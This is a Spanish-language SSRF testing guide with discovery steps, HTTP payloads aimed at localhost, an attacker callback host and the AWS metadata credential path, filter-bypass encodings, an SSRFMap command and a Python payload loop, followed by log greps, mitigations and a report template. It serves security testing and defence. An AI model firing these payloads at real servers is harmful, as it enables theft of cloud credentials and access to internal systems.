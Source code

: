 # Server-Side Request Forgery (SSRF)

## Resumen

SSRF permite a un atacante inducir al servidor a realizar peticiones HTTP(S) a URLs arbitrarias, incluida la red interna o externos controlados por el atacante. Con SSRF se pueden:

- **Exfiltrar datos internos** (metadata, servicios internos, endpoints de administración).
- **Acceder a APIs privadas** y servicios de nube (IMDS de AWS/GCP).
- **Bypass de firewalls** internos y WAFs.
- **Encadenar con RCE**, contención de servicios o robo de credenciales.

## Contexto

SSRF afecta a endpoints que aceptan URLs como parámetros (descarga de recursos, conversión de documentos, webhooks, fetch remotos) sin validar destino ni método. Las aplicaciones modernas usan:

- Pets de descargas: `/fetch?url=`
- Convertidores: `/convert?src=`
- Webhooks: `/notify?target=`
- Previsualizadores: `/preview?link=`

Servicios internos expuestos: `http://localhost:`, `http://127.0.0.1:`, `http://169.254.169.254` (AWS IMDS), `http://metadata.google.internal`.

## Metodología

### 1. Descubrimiento de Inputs SSRF

- Mapear parámetros que contienen URLs: `url=`, `src=`, `link=`, `target=`, `callback=`, `endpoint=`.
- Revisar campos JSON: `{ "url": "..." }`.
- Inspeccionar código front-end y plantillas que hagan fetch dinámico.

### 2. Pruebas de Concepto

#### 2.1 Bypass Básico

```http
GET /fetch?url=http://atacante.com HTTP/1.1
Host: victima.com
```

Verificar request entrante en servidor atacante.

#### 2.2 Recursos Internos

```http
GET /fetch?url=http://localhost:8080/admin HTTP/1.1
```

Observar respuesta o error interno indicando SSRF.

#### 2.3 IMDS AWS

```http
GET /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ HTTP/1.1
```

Extraer credenciales temporales.

#### 2.4 Bypass de filtros

- **DNS Rebinding:** Apuntar dominio atacante a IP interna tras TTL bajo.
- **Encodings:** `http://127.0.0.1%00.attacker.com`, `http://2130706433` (decimal), `http://0177.0.0.1` (octal).
- **SMB/FTP:** `file://`, `ftp://`, `gopher://` para transferencia de datos.
- **Host header manipulation:** algunas aplicaciones confían en host.

#### 2.5 Blind SSRF

- Usar `gopher://` o servicios de callback (`canarytokens.com`) para detectar peticiones sin respuesta visible.

## Pruebas Manuales

1. **Interceptar request** en Burp Suite.
2. **Enviar URL interna** (localhost, metadata).
3. **Observar error** o salida para confirmar SSRF.
4. **Encadenar** para extracción de datos privados.

## Automatización

### SSRFMap

```bash
git clone https://github.com/dwisiswant0/ssrfmap.git
cd ssrfmap
python3 ssrfmap.py -u "https://victima.com/fetch?url=FUZZ" -p urls.txt
```

### Burp Suite Extension: “Collaborator Everywhere”

- Genera payloads y monitorea Collaborator para peticiones blind SSRF.

### Script Python Básico

```python
import requests

targets = [
    'http://169.254.169.254/latest/meta-data/iam/security-credentials/',
    'http://127.0.0.1:80/admin'
]
for t in targets:
    r = requests.get('https://victima.com/fetch', params={'url': t}, timeout=5)
    print(t, r.status_code, r.text[:200])
```

## Explotación / Impacto

- **Robo de credenciales AWS/GCP** y escalada en la nube.
- **Acceso a bases de datos internas** (e.g., phpMyAdmin, Redis).
- **Descubrimiento de redes internas**: escaneo de puertos, directorios.
- **Pivoting**: usar el servidor como pivote para ataques internos.

## Detección

```bash
grep -E "fetch\?url=" access.log | grep -E "127.0.0.1|169.254.169.254"
```

Monitor real-time:

```bash
tail -f access.log | grep -E "(localhost|metadata|internal)"
```

## Mitigaciones

1. **Whitelist de dominios/IPs**: permitir solo destinos externos seguros.
2. **Rechazar hosts internos**: bloquear `127.0.0.1`, `169.254.169.254`, rangos RFC1918.
3. **Validación de esquema**: solo `http`/`https`.
4. **Deshabilitar protocolos peligrosos**: gopher, file, ftp.
5. **Escaneo de seguridad**: incluir SSRF en pruebas CI/CD con herramientas automáticas.

## Reporte

**Título:** SSRF – Exposición de Servicios Internos y Rango Privado
**Resumen Ejecutivo:** El parámetro `url` permite al atacante solicitar recursos internos no expuestos al público, incluida la metadata de nube, abriendo la puerta a robo de credenciales y pivoting.
**Pasos de Reproducción:**

1. Enviar `?url=http://169.254.169.254/latest/meta-data/`.
2. Confirmar respuesta con metadata.
3. Escalar con credenciales.
   **Mitigación Recomendada:** Implementar whitelist de destinos, bloqueo de IPs privadas, validación estricta de URL.
